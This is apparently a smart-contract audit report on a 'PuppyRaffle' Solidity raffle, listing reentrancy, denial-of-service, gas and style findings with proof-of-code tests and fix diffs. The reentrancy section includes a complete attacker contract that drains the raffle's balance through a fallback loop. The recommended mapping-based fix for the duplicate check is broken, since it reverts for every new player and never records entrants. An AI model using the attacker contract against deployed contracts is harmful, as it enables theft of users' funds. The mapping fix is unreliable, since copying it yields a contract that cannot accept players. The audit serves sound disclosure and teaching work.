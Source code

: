 ## High

### [H-1] Reentrancy attack in `PuppyRaffle::refund` function allown entrant to drain raffle balance

**Description:**\
The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result, enables participants to drain the contract balance. This occurs because the `PuppyRaffle::refund` function make a external call to msg.sender before update the `PuppyRaffle::players` array.

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);
@>      players[playerIndex] = address(0);
        
        emit RaffleRefunded(playerAddress);
    }
```
A player who has entered the raffle behind an another contract with a `fallback`/`receive` function in it, could call the `PuppyRaffle::refund` again and claim another refund. They could continue this cycle till the raffle contract balance is drained.

**Impact:**\
All fees paid by raffle entrants could be stolen by the malicious participant. 

**Proof of Concept:**

1. User enters the raffle
2. Attacker set up a contract with a `fallback` function that call `PuppyRaffle::refund`
3. Attacker enter the raffle from their attack contract setted contract
4. Attacker calls `PuppyRaffle::refund` from their attack contract

**Proof of Code:**
<details><summary>PoC</summary>


Paste the following into the ```PuppyRaffleTest.t.sol```

```javascript
function test_Audit_Reentrancy_Refund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);

    ReentrancyAttacker reentrancyAttacker = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    uint256 startingAttackerContractBalance = address(attacker).balance;
    uint256 startingRaffleContractBalance = address(puppyRaffle).balance;

    console.log("Attacker contract start: ", startingAttackerContractBalance);
    console.log("Raffle contract start: ", startingRaffleContractBalance);

    vm.prank(attacker);
    reentrancyAttacker.attack{value: entranceFee}();

    uint256 endingAttackerContractBalance = address(reentrancyAttacker).balance;
    uint256 endingRaffleContractBalance = address(puppyRaffle).balance;

    assertEq(endingAttackerContractBalance, startingAttackerContractBalance + startingRaffleContractBalance);
    assertEq(endingRaffleContractBalance, 0);

    console.log("Attacker contract end: ", endingAttackerContractBalance);
    console.log("Raffle contract end: ", endingRaffleContractBalance);
}

```
An the attacker contract too:

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = _puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>

**Recommended Mitigation:**\
To prevent this, on the `PuppyRaffle::refund` function, update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);
-       players[playerIndex] = address(0);

-       emit RaffleRefunded(playerAddress);
    }
```


### [H-2] The For Loop on `Puppyraffle::enterRaffle` function is a potential denial of service (DoS) attack.

**Description:**\
The for loop inside the `Puppyraffle::enterRaffle` function runs through an increasing array of players searching for duplicate ones, opening the possibility that an attacker could pass player addresses multiple times, making the later calls more gas expensive than the earlier ones.  

```javascript
@>  for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(
                players[i] != players[j],
                "PuppyRaffle: Duplicate player"
            );
        }
    }
```

**Impact:**\
After the attack, the new costs of entering the raffle would discourage new real users.

**Proof of Concept:**\
If we have two sets of 100 players enter, the gas used will be as such:
- 1st 100 players: ~6503269 gas
- 2nd 100 players: ~18995097 gas

The second set is ~3x more expensive than the first.

<details>
<summary>PoC</summary>

Place the following test into `test/PuppyRaffleTest.t.sol`.

```javascript
function testDoSEnterRaffle() public {
    uint256 startGas;
    uint256 gasUsedFirst;
    uint256 gasUsedSecond;
    uint256 numOfPlayers = 100;
    address[] memory players = new address[](numOfPlayers);

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedFirst = startGas - gasleft();

    for (uint256 i = 0; i < numOfPlayers; i++) {
        players[i] = address(uint160(i + numOfPlayers));
    }
    startGas = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * numOfPlayers}(players);
    gasUsedSecond = startGas - gasleft();
    console.log("Gas used on first enterRaffle() call: ", gasUsedFirst);
    console.log("Gas used on second enterRaffle() call: ", gasUsedSecond);
    assert(gasUsedFirst < gasUsedSecond);
}
```
</details>

**Recommended Mitigation:**
1. Consider allow duplicate addresses, because users can make new wallet addresses anyways, so duplicate check doesn't prevent the same person from entering multiple times.
2. Refactory the function code using a mapping instead of an array for check duplicates addresses.

<details>
<summary>Code example</summary>

```diff
-   address[] public players;
+   mapping(address => bool) public players;
+   error Puppyraffle__NotDuplicateAddressAllowed(address duplicateAddress);

    function enterRaffle(address[] memory newPlayers) public payable {
        require(
            msg.value == entranceFee * newPlayers.length,
            "PuppyRaffle: Must send enough to enter raffle"
        );
+       // Revert with the custom error if a duplicate address is found
        for (uint256 i = 0; i < newPlayers.length; i++) {
-           players.push(newPlayers[i]);
+           if (!players[newPlayers[i]]) {
+               revert Puppyraffle__NotDuplicateAddressAllowed(newPlayers[i]);
+           }
+           players[newPlayers[i]];
        }

-       // Check for duplicates
-       // audit DoS
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
-               require(
-                   players[i] != players[j],
-                   "PuppyRaffle: Duplicate player"
-               );
-           }
-       }
        emit RaffleEnter(newPlayers);
    }
```
</details>

## Low

### [L-1] On `PuppyRaffle::getActivePlayerIndex`, if zero is the index of the first address in the players array, so the user 0 may think what is not active.

**Description:**\
`PuppyRaffle::getActivePlayerIndex` returns the same "0" output for an non-existed player and for the one who have `players[0]` array index.

```javascript
function getActivePlayerIndex(address player) external view returns (uint256) {
    for (uint256 i = 0; i < players.length; i++) {
        if (players[i] == player) {
            return i;
        }
    }
    return 0;
}
```

**Impact:**\
A player at index 0 may incorrectly think they have not entered the raffle, and attempt to enter the raffle again, wasting gas.

**Proof of Concept:**

1. User enters the raffle, they are the first entrant
2. `PuppyRaffle::getActivePlayerIndex` return 0
3. User thinks they have not entered correctly due to the function documentation

**Recommended Mitigation:**\
If the function not find a active player can may return "-1" instead of "0", or a better approach will be, revert the txn with a `PuppyRaffle__UserIsNotActive` custom error.


## Gas

### [G-1] Unchanged state variables should be declared constant or immutable.

**Description:**\
Reading from storage is more gas expensive than reading from a constant or inmmutable variable.

**Instances:**
- `PuppyRaffle::reffleDuration` should be `immutable`
- `PuppyRaffle::reffleStartTime` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`


### [G-2] Storage Array Length not Cached

Calling `.length` on a storage array in a loop condition is expensive. Consider caching the length in a local variable in memory before the loop and reusing it.

<details><summary>4 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 88](src/PuppyRaffle.sol#L88)

    ```solidity
            for (uint256 i = 0; i < players.length - 1; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 89](src/PuppyRaffle.sol#L89)

    ```solidity
                for (uint256 j = i + 1; j < players.length; j++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 115](src/PuppyRaffle.sol#L115)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

- Found in src/PuppyRaffle.sol [Line: 186](src/PuppyRaffle.sol#L186)

    ```solidity
            for (uint256 i = 0; i < players.length; i++) {
    ```

</details>


**Recommended Mitigation:**
<details><summary>Code example</summary>

```diff
+   uint256 playersLength = players.length;
-   for (uint256 i = 0; i < players.length - 1; i++) {
+   for (uint256 i = 0; i < playersLength - 1; i++) {
-                for (uint256 j = i + 1; j < players.length; j++) {
+                for (uint256 j = i + 1; j < playersLength; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }
```
</details>

## Informational

### [I-1] Unspecific Solidity Pragma

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

    ```solidity
    pragma solidity ^0.7.6;
    ```

</details>

### [I-2] Using an outdated version of Solidity is not recommended.

**Description:**\
solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommended Mitigation:**\
Deploy with a recent version of Solidity (at least 0.8.0) with no known severe issues.
Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

### [I-3] Address State Variable Set Without Checks

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 62](src/PuppyRaffle.sol#L62)

    ```solidity
            feeAddress = _feeAddress;
    ```

- Found in src/PuppyRaffle.sol [Line: 179](src/PuppyRaffle.sol#L179)

    ```solidity
            feeAddress = newFeeAddress;
    ```

</details>

### [I-4] `PuppyRaffle::selectWinner` does not follow CEI, which is not a best practice

It's best to keep the code clean and follow CEI (Check, Effects, Interactions)

```diff
-   (bool success,) = winner.call{value: prizePool}("");
-   require(success, "PuppyRaffle: Failed to send prize pool to winner");
    _safeMint(winner, tokenId);
+   (bool success,) = winner.call{value: prizePool}("");
+   require(success, "PuppyRaffle: Failed to send prize pool to winner");
 
```